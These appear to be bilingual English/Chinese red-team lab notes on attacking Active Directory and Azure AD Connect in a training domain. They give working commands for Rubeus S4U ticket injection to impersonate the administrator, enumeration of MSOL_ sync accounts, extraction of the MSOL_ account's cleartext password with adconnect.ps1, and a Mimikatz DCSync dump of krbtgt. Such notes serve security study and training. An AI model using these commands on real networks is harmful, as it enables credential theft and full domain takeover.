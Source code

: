 Request and Inject the TGS by impersonating the user.
```
Rubeus.exe s4u /dc:us-dc.us.techcorp.local /ticket:doIGkDCCBoygAwIBBaEDAgEW... /impersonateuser:administrator /ptt /self /altservice:cifs/us-helpdesk
```

# Attacking Azure AD Integration

• An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:(使用Azure AD Connect，可以用以下方法将企业内部的AD与Azure AD集成。)

– Password Hash Sync (PHS)(密码哈希同步（PHS）)
– Pass-Through Authentication (PTA)(Pass-Through认证（PTA）)
– Federation(联盟？)

• Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!（Azure AD Connect安装在企业内部，在AD和Azure AD中都有一个高权限的账户!）


##  PHS

• It shares users and their password hashes from on-premises AD to Azure AD.（它将用户和他们的密码哈希值从企业内部的AD共享到Azure AD）
• A new users MSOL_ is created which has Synchronization rights (DCSync) on the domain!（一个新的用户MSOL_被创建，它在域上有同步的权利（DCSync）!）


枚举PHS账户和安装AD连接的服务器

使用PowerView
```
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```
使用ActiveDirectory module
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

- 我们已经以helpdeskadmin的身份对我们的adconnect有管理权限。
- 有了管理权限，如果我们运行adconnect.ps1，我们可以提取AD Connect使用的MSOL_账户的明文凭证
```
.\adconnect.ps1
```

With the password, we can run commands as MSOL_
```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

can execute the DCSync attack
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```
